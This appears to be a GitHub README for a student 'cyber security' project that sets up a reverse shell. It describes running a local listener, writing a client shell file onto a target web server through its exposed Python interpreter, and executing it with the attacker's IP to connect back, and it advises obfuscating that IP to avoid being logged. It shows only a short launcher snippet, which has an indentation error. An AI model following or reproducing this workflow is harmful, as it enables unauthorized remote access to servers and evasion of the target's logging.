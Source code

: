 
# Remote-Python-Interpreter a.k.a glowing-fishstick

This project was started as a result of Cyber Security studies, created purely for testing purposes to demonstrate ability to access web servers with python interpreters and read/write access.

## Server side listener

First run `serverListener.py` locally to ensure you have the listener ready, the connection cannot be made unless this is running first.

```python serverListener.py```

## Write the client side python file remotely

You then can run `pythonWriter.py` using the target web servers python interpreter window. This will only work if the web server is set up to allow write access.

This script will create the `clientShell.py` file on the remote server.

## Executing the client shell

When the server is running locally and the client shell python script is created you can use the python interpreter to execute the python file, substituting the <IP_ADDRESS> value with your IP address.

Note: depending on the servers setup, it may record the IP address used and any other inputs made, so best to use obfuscation techniques when providing an IP address.

```
import subprocess  

# Define the command to run your Python script
command = "python clientShell.py <IP_ADDRESS>"

# Use subprocess to run the command
try:
	subprocess.run(command, shell=True, check=True)
	except subprocess.CalledProcessError as e:
		print(f"Error: {e}")
```
